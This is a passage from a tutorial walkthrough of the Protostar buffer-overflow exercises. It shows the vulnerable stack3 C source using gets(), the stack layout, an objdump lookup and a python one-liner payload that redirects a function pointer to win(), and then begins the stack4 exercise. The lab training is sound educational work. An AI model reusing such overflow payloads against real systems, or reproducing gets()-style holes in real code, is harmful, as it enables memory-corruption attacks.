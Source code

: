 ```c

    gets(buffer);

    if(fp) {
        printf("calling function pointer, jumping to 0x%08x\n", fp);
        fp();
    }
}
```

In the above code, we can clearly understand that the vulnerability occurs when the `gets()` function is used. We will examine what the stack looks like in this case:

```
[buffer 64][fp][saved ebp][saved eip]
```

What we see here is that `fp` in this case is a pointer of a function and the program will jump to what `fp` contains. So what we need to move on is just make sure we have the address of `win` in the `fp` variable.

```bash
cd /opt/protostar/bin
objdump -d stack3 | grep "win"
```

Using the above command we can find that `win` is at address "0x08048424". So here is our final payload:

```bash
python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3
```

**Output**

![image-14](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/5afb15034ccc33d4750897090b47a57e-14.png "Image-14")

* * *

###### FIFTH EXERCISE "STACK FOUR"

In this new exercise we will see together how a buffer overflow can change code execution even when there's no variable to overwrite. First let's see the source code of our challenge:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
```
